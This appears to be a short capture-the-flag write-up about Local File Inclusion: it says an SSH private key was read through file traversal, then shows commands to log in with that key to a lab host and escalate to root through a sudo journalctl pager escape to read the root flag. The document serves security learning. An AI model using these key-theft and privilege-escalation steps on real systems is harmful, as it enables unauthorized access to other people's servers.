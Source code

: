 24 June 2021	-	Thursday

LFI
---

Local File Inclusion (LFI) is the vulnerability that is mostly found in web servers. This vulnerability is exploited when a user input contains a certain path to the file which might be present on the server and will be included in the output. This kind of vulnerability can be used to read files containing sensitive and confidential data from the vulnerable system.



*	Read ssh private using LFI bug (i.e. file traversal reading file)

*	ssh private key of remote server is stored on `privateKey` file

###	connect to server using private key:

*	make `privateKey` as a priviledged file (i.e. only read/write access by current user).
	```
	chmod 600 privateKey
	```

*	connect to server via __ssh__ using privateKey.
	```
	ssh -i ./privateKey falcon@10.10.39.9
	```

*	Now read `user.txt` file to get first flag.
	```
	B8LEGIF049JT4RTVWUG4
	```

*	see what commands current user can run with sudo using `sudo -l` command
	```
	/bin/journalctl
	```

*	search for `journalctl` and see any stuff related to privilege escalation.

	*	got this site: https://gtfobins.github.io/gtfobins/journalctl/

*	basically just run this command:
	```
	sudo journalctl
	```

	*	Basically this invokes the default pager as **root** user using `vim` editor inside the shell.

*	using this command, you can read `root.txt` flag, which can only be read by root user.
	```
	!cat /root/root.txt
	```



Hense room's complete